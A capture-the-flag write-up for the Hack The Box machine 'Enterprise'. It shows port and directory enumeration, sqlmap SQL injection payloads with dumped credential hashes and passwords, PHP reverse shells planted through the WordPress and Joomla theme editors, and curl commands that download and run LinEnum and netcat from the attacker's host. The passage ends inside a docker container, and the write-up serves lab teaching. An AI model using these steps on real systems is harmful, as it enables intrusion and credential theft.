








---
search:
  exclude: true
---
# Enterprise Writeup

## Introduction :

Enterprise is a medium linux box released back in October 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
      → nmap --top-ports 65000 10.10.10.61 -F
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-04 18:08 GMT
      Nmap scan report for 10.10.10.61
      Host is up (0.093s latency).
      Not shown: 8315 closed ports
      PORT     STATE    SERVICE
      22/tcp   open     ssh
      80/tcp   open     http
      443/tcp  open     https
      5355/tcp filtered llmnr
      8080/tcp open     http-proxy
    
      Nmap done: 1 IP address (1 host up) scanned in 43.10 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
      → nmap -sCV -p22,80,443,5355,8080 10.10.10.61
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-04 18:09 GMT
      Nmap scan report for 10.10.10.61
      Host is up (0.096s latency).
    
      PORT     STATE    SERVICE  VERSION
      22/tcp   open     ssh      OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 c4:e9:8c:c5:b5:52:23:f4:b8:ce:d1:96:4a:c0:fa:ac (RSA)
      |   256 f3:9a:85:58:aa:d9:81:38:2d:ea:15:18:f7:8e:dd:42 (ECDSA)
      |_  256 de:bf:11:6d:c0:27:e3:fc:1b:34:c0:4f:4f:6c:76:8b (ED25519)
      80/tcp   open     http     Apache httpd 2.4.10 ((Debian))
      |_http-generator: WordPress 4.8.1
      |_http-server-header: Apache/2.4.10 (Debian)
      |_http-title: USS Enterprise - Ships Log
      443/tcp  open     ssl/http Apache httpd 2.4.25 ((Ubuntu))
      |_http-server-header: Apache/2.4.25 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      | ssl-cert: Subject: commonName=enterprise.local/organizationName=USS Enterprise/stateOrProvinceName=United Federation of Planets/countryName=UK
      | Not valid before: 2017-08-25T10:35:14
      |_Not valid after:  2017-09-24T10:35:14
      |_ssl-date: TLS randomness does not represent time
      | tls-alpn:
      |_  http/1.1
      5355/tcp filtered llmnr
      8080/tcp open     http     Apache httpd 2.4.10 ((Debian))
      |_http-generator: Joomla! - Open Source Content Management
      | http-open-proxy: Potentially OPEN proxy.
      |_Methods supported:CONNECTION
      | http-robots.txt: 15 disallowed entries
      | /joomla/administrator/ /administrator/ /bin/ /cache/
      | /cli/ /components/ /includes/ /installation/ /language/
      |_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
      |_http-server-header: Apache/2.4.10 (Debian)
      |_http-title: Home
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 23.47 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up 2 http services running on port 80 and 8080 so we dirbust them both :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → dirb http://10.10.10.61
    
    -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------
    
    START_TIME: Wed Mar  4 18:11:46 2020
    URL_BASE: http://10.10.10.61/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    
    -----------------
    
    GENERATED WORDS: 4612
    
    ---- Scanning URL: http://10.10.10.61/ ----
    + http://10.10.10.61/server-status (CODE:403|SIZE:299)
    
    ==> DIRECTORY: http://10.10.10.61/wp-admin/
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Node]
    → dirb http://10.10.10.61:8080
    
    -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------
    
    START_TIME: Wed Mar  4 18:11:45 2020
    URL_BASE: http://10.10.10.61:8080/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    
    -----------------
    
    GENERATED WORDS: 4612
    
    ---- Scanning URL: http://10.10.10.61:8080/ ----
    + http://10.10.10.61:8080/0 (CODE:200|SIZE:7678)
    + http://10.10.10.61:8080/01 (CODE:200|SIZE:8286)
    + http://10.10.10.61:8080/02 (CODE:200|SIZE:8595)
    + http://10.10.10.61:8080/1 (CODE:200|SIZE:8285)
    + http://10.10.10.61:8080/1x1 (CODE:200|SIZE:8287)
    + http://10.10.10.61:8080/2 (CODE:200|SIZE:8594)
    + http://10.10.10.61:8080/2g (CODE:200|SIZE:8595)
    + http://10.10.10.61:8080/about (CODE:200|SIZE:8160)
    + http://10.10.10.61:8080/About (CODE:200|SIZE:8160)
    ==> DIRECTORY: http://10.10.10.61:8080/administrator/
    ==> DIRECTORY: http://10.10.10.61:8080/bin/
    ==> DIRECTORY: http://10.10.10.61:8080/cache/
    ==> DIRECTORY: http://10.10.10.61:8080/components/
    

So as our nmap scan picked up, we have wordpress running on port 80, and joomla running on port 8080 and investigating port 443 we get yet another webpage which is the default apache successful installation page

Now dirbusting a https is long and tedious but we find the /files directory nonetheless : 

so we download it locally (wget --no-check-certificate) and try to unzip it : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → wget https://10.10.10.61/files/lcars.zip --no-check-certificate
    --2020-03-05 06:26:20--  https://10.10.10.61/files/lcars.zip
    Connecting to 10.10.10.61:443... connected.
    WARNING: The certificate of ‘10.10.10.61’ is not trusted.
    WARNING: The certificate of ‘10.10.10.61’ doesn't have a known issuer.
    WARNING: The certificate of ‘10.10.10.61’ has expired.
    The certificate has expired
    The certificate's owner does not match hostname ‘10.10.10.61’
    HTTP request sent, awaiting response... 200 OK
    Length: 1406 (1.4K) [application/zip]
    Saving to: ‘lcars.zip’
    
    lcars.zip                     100%[===============================================>]   1.37K  --.-KB/s    in 0s
    
    2020-03-05 06:26:21 (14.0 MB/s) - ‘lcars.zip’ saved [1406/1406]
    
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → unzip lcars.zip
    Archive:  lcars.zip
      inflating: lcars/lcars_db.php
      inflating: lcars/lcars_dbpost.php
      inflating: lcars/lcars.php
    

now looking at lcars_db.php we see a few interesting things : 

number one being the php script including a wordpress php config, located in /var/www/html/wp-config.php which could possibly reveal additional information about the database being used, and at the bottom we see a sql query looking for the number (integer) of wp_post IDs which shows an apparent SQL Injection vulnerability, however because the $result variable is returning an array and whatever we try to inject won't be able to escape the echo statement.

here the script is also using the /var/www/html/wp-config.php config, and preety much the same things as above but with 2 additional if statements which are additional checks against sql injections, however we see that whatever we try to query gets casted into integer type so we could write a simple python script, to try passing in numbers as query to inspect what information we can get from it.
    
    
    import requests
    
    url ="http://10.10.10.61/wp-content/plugins/lcars/lcars_dbpost.php?query="
    for x in range(150):
            tmp = url + str(x)
            print(str(x),str(requests.get(tmp).text).strip())
    

So once the python script saved, we execute it : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → nano script.py
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → python script.py
    ('0', '')
    ('1', 'Hello world!')
    ('2', '')
    ('3', 'Auto Draft')
    ('4', 'Espresso')
    ('5', 'Sandwich')
    ('6', 'Coffee')
    ('7', 'Home')
    ('8', 'About')
    ('9', 'Contact')
    ('10', 'Blog')
    ('11', 'A homepage section')
    ('12', '')
    ('13', 'enterprise_header')
    ('14', 'Espresso')
    ('15', 'Sandwich')
    ('16', 'Coffee')
    ('17', '')
    ('18', '')
    ('19', '')
    ('20', '')
    ('21', '')
    ('22', '')
    ('23', 'enterprise_header')
    ('24', 'cropped-enterprise_header-1.jpg')
    ('25', '')
    ('26', '')
    ('27', '')
    ('28', '')
    ('29', '')
    ('30', 'Home')
    ('31', '')
    ('32', '')
    ('33', '')
    ('34', 'Yelp')
    ('35', 'Facebook')
    ('36', 'Twitter')
    ('37', 'Instagram')
    ('38', 'Email')
    ('39', '')
    ('40', 'Hello world!')
    ('41', '')
    ('42', '')
    ('43', '')
    ('44', '')
    ('45', '')
    ('46', '')
    ('47', '')
    ('48', '')
    ('49', '')
    ('50', '')
    ('51', 'Stardate 49827.5')
    ('52', 'Stardate 49827.5')
    ('53', 'Stardate 50893.5')
    ('54', 'Stardate 50893.5')
    ('55', 'Stardate 52179.4')
    ('56', 'Stardate 52179.4')
    ('57', 'Stardate 55132.2')
    ('58', 'Stardate 55132.2')
    ('59', '')
    ('60', '')
    ('61', '')
    ('62', '')
    ('63', '')
    ('64', '')
    ('65', '')
    ('66', 'Passwords')
    ('67', 'Passwords')
    ('68', 'Passwords')
    ('69', 'YAYAYAYAY.')
    ('70', 'YAYAYAYAY.')
    ('71', 'test')
    ('72', '')
    ('73', '')
    ('74', '')
    ('75', '')
    ('76', '')
    ('77', '')
    ('78', 'YAYAYAYAY.')
    ('79', '')
    ('80', '')
    ('81', '')
    ('82', '')
    ('83', '')
    ('84', '')
    ('85', '')
    ('86', '')
    ('87', '')
    ('88', '')
    ('89', '')
    ('90', '')
    ('91', '')
    ('92', '')
    ('93', '')
    ('94', '')
    ('95', '')
    ('96', '')
    ('97', '')
    ('98', '')
    ('99', '')
    ('100', '')
    

even though the page has 5 posts, according to our results it has quite a few more, so maybe our script isn't all that great, for lcars_db.php we'll use sqlmap instead :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
      → sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php\?query\=1 --dbs
              ___
             __H__
       ___ ___[.]_____ ___ ___  {1.4.2#stable}
      |_ -| . [.]     | .'| . |
      |___|_  [(]_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 07:10:04 /2020-03-05/
    
      [07:10:04] [INFO] testing connection to the target URL
      [07:10:05] [INFO] checking if the target is protected by some kind of WAF/IPS
      [07:10:05] [INFO] testing if the target URL content is stable
      [07:10:05] [INFO] target URL content is stable
      [07:10:05] [INFO] testing if GET parameter 'query' is dynamic
      [07:10:06] [WARNING] GET parameter 'query' does not appear to be dynamic
      [07:10:06] [WARNING] heuristic (basic) test shows that GET parameter 'query' might not be injectable
      [07:10:06] [INFO] testing for SQL injection on GET parameter 'query'
      [07:10:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
      [07:10:08] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
      [07:10:09] [INFO] GET parameter 'query' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --string="fatal")
      [07:10:13] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
      [07:10:13] [INFO] GET parameter 'query' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
      it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
      for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
      [07:10:48] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
      [07:10:48] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
      [07:10:50] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
      [07:10:52] [INFO] target URL appears to have 1 column in query
      [07:10:53] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql')
      [07:10:57] [INFO] target URL appears to be UNION injectable with 1 columns
      GET parameter 'query' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
      sqlmap identified the following injection point(s) with a total of 67 HTTP(s) requests:
      ---
      Parameter: query (GET)
          Type: boolean-based blind
          Title: Boolean-based blind - Parameter replace (original value)
          Payload: query=(SELECT (CASE WHEN (5644=5644) THEN 1 ELSE (SELECT 2592 UNION SELECT 3911) END))
    
          Type: error-based
          Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
          Payload: query=1 AND (SELECT 9520 FROM(SELECT COUNT(*),CONCAT(0x716a7a7171,(SELECT (ELT(9520=9520,1))),0x716b627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
      ---
      [07:11:02] [INFO] the back-end DBMS is MySQL
      back-end DBMS: MySQL >= 5.0
      [07:11:04] [INFO] fetching database names
      [07:11:04] [INFO] retrieved: 'information_schema'
      [07:11:05] [INFO] retrieved: 'joomla'
      [07:11:05] [INFO] retrieved: 'joomladb'
      [07:11:05] [INFO] retrieved: 'mysql'
      [07:11:05] [INFO] retrieved: 'performance_schema'
      [07:11:06] [INFO] retrieved: 'sys'
      [07:11:06] [INFO] retrieved: 'wordpress'
      [07:11:06] [INFO] retrieved: 'wordpressdb'
      available databases [8]:
      [*] information_schema
      [*] joomla
      [*] joomladb
      [*] mysql
      [*] performance_schema
      [*] sys
      [*] wordpress
      [*] wordpressdb
    
    

And we found a few databases ! 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php\?query\=1 -D wordpress -T wp_users -C user_login,user_pass,user_email --dump --hex --threads 5
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.4.2#stable}
    |_ -| . ["]     | .'| . |
    |___|_  [(]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 07:59:46 /2020-03-05/
    
    [...]
    
    
    DB:wordpress
    
    Table:wp_users
    user : william.riker
    pass : $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.
    email : william.riker@enterprise.htb
    
    Table:wp_posts
    I got 1 draft post including password list
    
    Needed somewhere to put some passwords quickly
    ZxJyhGem4k338S2Y
    enterprisencc170
    ZD3YxfnSjezg67JZ
    u*Z14ru0p#ttj83zS6
    
    DB: joomladb
    prefix : edz2g
    
    Command : sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1 -D joomladb -T edz2g_users -C username,password,email --dump --threads 10
    Table : edz2g_users
    +-----------------+--------------------------------------------------------------+--------------------------------+
    | username | password | email |
    +-----------------+--------------------------------------------------------------+--------------------------------+
    | geordi.la.forge | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge@enterprise.htb |
    | Guinan | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | guinan@enterprise.htb |
    +-----------------+--------------------------------------------------------------+--------------------------------+
    
    DB: mysql
    user: joomladb  |  2eb70fd4eb74f31283541aad4e83ab6e077bc0df MySQL4.1/MySQL5 : joomlapassword!
    user: root  | 95b8a7b0a041cf2011bea41db57315c603285253 MySQL4.1/MySQL5 : NCC-1701E
    user:wordpressdb | 10c910bc9c2c46140dc275cb69dc6565de125630 MySQL4.1/MySQL5 : passwordwordpress
    

From there, we have a few credentials to work with, let's try **william.riker:u*Z14ru0p#ttj83zS6** on the wordpress admin pannel : 
    
    
      λ root [ 10.10.14.11/23 ] [nihilist/_HTB/Enterprise]
    → echo '10.10.10.61 enterprise.htb' >> /etc/hosts
    
    

` 

And we are logged in! now we move over to the themes tab to upload our reverse shell : 

    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → locate nihilist.php
    /home/nihilist/_HTB/Bastard/nihilist.php
    /home/nihilist/_HTB/Cronos/nihilist.php
    /home/nihilist/_HTB/Haircut/nihilist.php
    /home/nihilist/_HTB/Networked/nihilist.php.gif
    /home/nihilist/_HTB/October/nihilist.php5
    /home/nihilist/_HTB/Popcorn/nihilist.php
    /home/nihilist/_HTB/Popcorn/nihilist.php.gif
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → cp /home/nihilist/_HTB/Popcorn/nihilist.php .
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → nano nihilist.php
    

` 

Once modified we move over to the 404.php file we modified containing our reverse shell : 

And trying to print out the user flag we get a troll, so we need to see what we have to do from here. 
    
    
      www-data@b8319d86d21e:/home$ hostname
      hostname
      b8319d86d21e
      www-data@b8319d86d21e:/home$ ip addr
      ip addr
      1: lo: <****LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
          link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
          inet 127.0.0.1/8 scope host lo
             valid_lft forever preferred_lft forever
      8: eth0@if9: <****BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
          link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
          inet 172.17.0.4/16 scope global eth0
             valid_lft forever preferred_lft forever

From here we see that the current box that we are on , logged in as www-data. we can move in /tmp, and download LinEnum to execute and see what we can do on the box
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
      → locate LinEnum.sh
      /home/nihilist/_HTB/Cronos/LinEnum.sh
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
      → cp /home/nihilist/_HTB/Cronos/LinEnum.sh .
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
      → python -m SimpleHTTPServer 8080
      Serving HTTP on 0.0.0.0 port 8080 ...
    
    
    
      www-data@b8319d86d21e:/home$ cd /tmp && curl -O http://10.10.14.11:8080/LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh
    

Looking at the results, we see that we are actually WITHIN a docker container, and somehow we have to break free from it. our current ip address within the box is 172.17.0.4/16 so let's see if we can ping any other ip address within this range :
    
    
      www-data@b8319d86d21e:/home$ for x in $(seq 1 255); do ping -W 1 -c 1 172.17.0.$x | grep from; done
    <$ for x in $(seq 1 255); do ping -W 1 -c 1 172.17.0.$x | grep from; done
    64 bytes from 172.17.0.1: icmp_seq=0 ttl=64 time=0.153 ms
    64 bytes from 172.17.0.2: icmp_seq=0 ttl=64 time=0.091 ms
    64 bytes from 172.17.0.3: icmp_seq=0 ttl=64 time=0.151 ms
    64 bytes from 172.17.0.4: icmp_seq=0 ttl=64 time=0.041 ms
    

And looking at it, we seem to be able to ping 3 other ip addresses (172.17.0.4 being our docker container.) now running**which nc** we see that netcat isn't available for us, so we have to download a binary locally and then upload it using wget/SimpleHTTPServer like before
    
    
      www-data@b8319d86d21e:/tmp$ curl -O http://10.10.14.11:8080/nc && chmod +x nc
      curl -O http://10.10.14.11:8080/nc && chmod +x nc
        % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                       Dload  Upload   Total   Spent    Left  Speed
      100 35520  100 35520    0     0  34016      0  0:00:01  0:00:01 --:--:-- 34022
      www-data@b8319d86d21e:/tmp$ ls -lash
      ls -lash
      total 128K
      4.0K drwxrwxrwt  3 root     root     4.0K Mar  5 08:51 .
      4.0K drwxr-xr-x 73 root     root     4.0K Sep  6  2017 ..
      4.0K drwxr-xr-x  2 www-data www-data 4.0K Sep  7  2017 .sam
       36K -rwxr-xr-x  1 www-data www-data  35K Mar  5 08:51 nc
       60K -rw-------  1 www-data www-data  58K Oct 16  2017 sess_09dc3ceeb2cec4020caf3d94f3001509
      4.0K -rw-------  1 www-data www-data   60 Sep  8  2017 sess_71faa5ea6f4f1d51294af6db00072edd
      4.0K -rw-------  1 www-data www-data  917 Sep  8  2017 sess_b9c02f197e1c999b859d36e1e1040a6e
      8.0K -rw-------  1 www-data www-data 7.2K Oct 17  2017 sess_c84f999fe96f763f1e5928bb1ded0eae
      4.0K -rw-------  1 www-data www-data   60 Oct 20  2017 sess_f4abe5392ffbb75a6ecb22dd4af8accc
    
    

From there we can scan the 3 ip addresses we found earlier : 
    
    
    www-data@b8319d86d21e:/tmp$./nc -vz 172.17.0.1 1-65535 2>/dev/stdout | grep 'succeeded!'
    Connection to 172.17.0.1 22 port [tcp/ssh] succeeded!
    Connection to 172.17.0.1 80 port [tcp/http] succeeded!
    Connection to 172.17.0.1 443 port [tcp/https] succeeded!
    Connection to 172.17.0.1 5355 port [tcp/hostmon] succeeded!
    Connection to 172.17.0.1 8080 port [tcp/http-alt] succeeded!
    Connection to 172.17.0.1 32812 port [tcp/*] succeeded!
    
    www-data@b8319d86d21e:/tmp$./nc -vz 172.17.0.2 1-65535 2>/dev/stdout | grep 'succeeded!'
    Connection to 172.17.0.2 3306 port [tcp/mysql] succeeded!
    
    www-data@b8319d86d21e:/tmp$./nc -vz 172.17.0.3 1-65535 2>/dev/stdout | grep 'succeeded!'
    Connection to 172.17.0.3 80 port [tcp/http] succeeded!
    
    

Unfortunately we don't get to be able to do much more from here, so let's try and see what we can do from the joomla service running on port 8080 using the credentials we found earlier : 
    
    
      ZD3YxfnSjezg67JZ:geordi.la.forge
      ZxJyhGem4k338S2Y:Guinan
    

`  

Once we are logged in , we go ahead and upload a php reverse shell, just like for the wordpress service by editing a php file : 

Extensions > Templates > Templates > Protostar 

 

Save the modified php file, and hit preview to execute the infected php file : 

And we seem to get into yet another docker container, this time as the 172.17.0.3 
    
    
      172.17.0.1 (Host machine)
    172.17.0.3 (Joomla)
    172.17.0.4 (Wordpress)
    

From there we can probably guess that **172.17.0.2** is the mysql server. 
    
    
    www-data@a7018bfdc454:/home$ mount -l
    mount -l
    
    [...]
    
    **/dev/mapper/enterprise--vg-root on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
    /dev/mapper/enterprise--vg-root on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
    /dev/mapper/enterprise--vg-root on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
    /dev/mapper/enterprise--vg-root on /var/www/html type ext4 (rw,relatime,errors=remount-ro,data=ordered)
    /dev/mapper/enterprise--vg-root on /var/www/html/files type ext4 (rw,relatime,errors=remount-ro,data=ordered)**
    proc on /proc/bus type proc (ro,relatime)
    proc on /proc/fs type proc (ro,relatime)
    proc on /proc/irq type proc (ro,relatime)
